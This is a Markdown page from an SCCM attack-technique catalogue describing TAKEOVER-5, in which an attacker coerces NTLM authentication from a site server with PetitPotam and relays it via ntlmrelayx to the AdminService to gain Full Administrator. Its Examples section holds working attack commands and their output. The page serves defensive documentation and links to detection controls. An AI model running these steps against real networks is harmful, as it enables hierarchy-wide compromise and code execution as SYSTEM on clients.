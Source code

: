 # TAKEOVER-5

## Description
Hierarchy Takeover via NTLM coercion and relay to AdminService on remote SMS Provider

## MITRE ATT&CK TTPs
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-5.1: Coerce primary site server 
    - TAKEOVER-5.2: Coerce passive site server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server [DEFAULT]
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target [DEFAULT]

### Relay
- Connectivity from the relay server to HTTPS (TCP/443) on the relay target hosting the SMS Provider role
- Relay target domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target [DEFAULT]
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target [DEFAULT]

## Summary
The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations. The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. Access to the SMS Provider is controlled via membership of the the `SMS Admins` local security group on each site server. The site server computer account is a member of the `SMS Admins` security group on each SMS Provider in a site by default.

The SMS Provider also provides access to the site database via the administration service (AdminService) REST API and uses Microsoft Negotiate for authentication. In default configurations, the AdminService is vulnerable to NTLM relay attacks.

## Impact
This technique may allow an attacker to relay a site server's domain computer account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM hierarchy. If successful, this technique enables an attacker to execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-5: Monitor group membership changes for SMS Admins](../../../defense-techniques/DETECT/DETECT-5/detect-5_description.md)
- [DETECT-5: Monitor group membership changes for RBAC_Admins table](../../../defense-techniques/DETECT/DETECT-6/detect-6_description.md)
- [PREVENT-9: Enforce MFA for SMS Provider calls](../../../defense-techniques/PREVENT/PREVENT-9/prevent-9_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

> **Note:** Extended Protection for Authentication (EPA) is not currently supported by the AdminService (as of March 2024), so cannot be configured to prevent relay to the AdminService.

## Subtechniques
- TAKEOVER-5.1: Coerce primary site server
- TAKEOVER-5.2: Coerce passive site server

## Examples

1. Use `SCCMHunter` to profile SCCM infrastructure:
    ```
    [02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
    [02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```

2. On the attacker relay server, start `ntlmrelayx` (currently, Garrett Foster's [fork/pull request here](https://github.com/fortra/impacket/pull/1593) must be used until it is merged into impacket), targeting the URL of the AdminService API on the remote SMS Provider identified in the previous step, and provide a target account to add as a Full Administrator:
    ```
    └─# python3 ntlmrelayx.py --adminservice --logonname "lab\specter" --displayname "lab\specter" --objectsid <USER SID> -smb2support -t https://SMS_PROVIDER_URL_OR_IP/AdminService/wmi/SMS_Admin
    Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666
    ```

3. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the AdminService on the SMS Provider to add a Full Administrator:
    ```
    ┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/adminservice/examples]


    [*] Servers started, waiting for connections
    [*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.121, attacking target https://provider.internal.lab
    [*] Exiting standard auth flow to add SCCM admin...
    [*] Authenticating against https://provider.internal.lab as LAB/SCCM$
    [*] Skipping user SCCM$ since attack was already performed
    [*] Server returned code 201, attack successful
    ```

4. Confirm that the account now has the `Full Administrator` role by querying WMI on an SMS Provider:
    ```
    $ python3 sccmhunter.py  admin -u specter -p <PASSWORD> -ip SITE-SMS          

    [14:16:54] INFO     [!] Enter help for extra shell commands                                                                                                                                              
    () (C:\) >> show_admins
    [14:17:11] INFO     Tasked SCCM to list current SMS Admins.                                                                                                                                              
    [14:17:12] INFO     Current Full Admin Users:
    [14:17:13] INFO     lab\Administrator 
    [14:17:13] INFO     lab\specter 
    ```

## References
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
- Garrett Foster, [Site Takeover via SCCM's AdminService API](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)
- Microsoft, [Plan for the SMS Provider](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider)
- Microsoft, [What is the administration service in Configuration Manager?](https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview)
